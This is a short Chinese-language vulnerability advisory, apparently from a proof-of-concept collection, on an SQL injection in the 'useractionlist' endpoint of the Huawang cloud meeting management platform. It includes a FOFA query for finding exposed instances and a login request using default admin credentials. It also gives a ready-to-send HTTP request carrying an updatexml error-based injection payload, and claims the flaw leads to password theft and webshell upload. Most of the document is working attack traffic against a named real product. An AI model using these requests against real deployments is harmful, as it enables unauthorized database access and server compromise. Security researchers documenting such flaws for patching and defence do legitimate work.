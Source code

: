 # 华望云会议管理平台useractionlist存在SQL注入漏洞

华望云会议管理平台 `useractionlist` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

获取cookie

```javascript
POST /ajax/userlogin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
X-Requested-With: XMLHttpRequest

userNameCopy=admin&userName=admin&passWordCopy=admin&passWord=21232f297a57a5a743894a0e4a801fc3
```

将获取到cookie填入下面poc中

```javascript
POST /page/useractionlist?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&dpId=1&params[]=displayName&params[]=userName HTTP/1.1
Host: 
X-Requested-With: XMLHttpRequest
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

![e034ce0d97d2420ea913de1498bfe951.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132251636.png)

![1b610ed8f77245f99e98203c9b8c2f1b.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132249981.png)